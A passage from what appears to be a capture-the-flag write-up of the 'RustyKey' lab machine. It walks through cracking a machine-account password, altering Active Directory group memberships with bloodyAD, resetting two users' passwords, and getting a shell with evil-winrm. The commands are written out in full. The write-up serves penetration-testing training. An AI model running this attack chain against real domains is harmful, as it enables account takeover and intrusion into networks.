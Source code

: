 **Result**: Successfully cracked RID 1125 with password `Rusty88!`

Analysis on bloodhound revealed RID 1125 corresponds to the machine account **IT-COMPUTER3$**.

### Privilege Escalation Path 1: Password Changes via HelpDesk

With IT-COMPUTER3$ credentials, the attack path becomes:

1. **Add IT-COMPUTER3$ to HelpDesk group**:
```bash
getTGT.py -dc-ip 10.10.11.75 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
export KRB5CCNAME=IT-COMPUTER3$.ccache
bloodyAD --host dc.rustykey.htb --dc-ip 10.10.11.75 -d rustykey.htb -k add groupMember 'HELPDESK' IT-COMPUTER3$
```

2. **Remove IT group from Protected Objects** (to enable password changes):
```bash
bloodyAD --host dc.rustykey.htb -k -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'Protected Objects' 'IT'
```

3. **Change bb.morgan's password**:
```bash
bloodyAD --kerberos --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password bb.morgan 'Password123.'
```

### Initial Shell Access

```bash
getTGT.py -dc-ip 10.10.11.75 'rustykey.htb/bb.morgan:Password123.'
export KRB5CCNAME=bb.morgan.ccache
evil-winrm -i dc.rustykey.htb -r rustykey.htb -u bb.morgan
```

### User Flag
Located at `C:\Users\bb.morgan\Desktop\user.txt`

The desktop also contained `internal.pdf`, which revealed that the Support Group has temporary extended access to archiving tools and registry keys.

## Privilege Escalation Phase

### Support Group Access

Following the PDF hint about Support Group privileges:

1. **Remove Support group from Protected Objects**:
```bash
bloodyAD --kerberos --dc-ip 10.10.11.75 --host dc.rustykey.htb -d rustykey.htb -u IT-COMPUTER3$ -p 'Rusty88!' remove groupMember "CN=PROTECTED OBJECTS,CN=USERS,DC=RUSTYKEY,DC=HTB" "SUPPORT"
```

2. **Change ee.reed's password**:
```bash
bloodyAD --kerberos --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password ee.reed 'Password123.'
```
